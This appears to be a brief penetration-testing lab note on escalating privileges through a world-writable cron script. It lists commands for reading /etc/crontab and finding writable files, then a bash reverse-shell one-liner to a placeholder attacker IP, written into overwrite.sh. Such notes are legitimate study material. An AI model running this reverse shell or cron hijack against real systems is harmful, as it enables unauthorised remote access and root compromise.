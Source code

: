 # crontab

to display schedule task

```bash
cat /etc/crontab 
# And
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png>)

we found two bash script so let’s know the privileges of this files

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we found \[`overwrite.sh](http://overwrite.sh)` we can write in this file so let’s take a revers shell

```bash
bash -c 'bash -i >& /dev/tcp/AttackerIP/portnumber 0>&1'
```

<figure><img src="../../../.gitbook/assets/image 2 (2) (1).png" alt=""><figcaption></figcaption></figure>
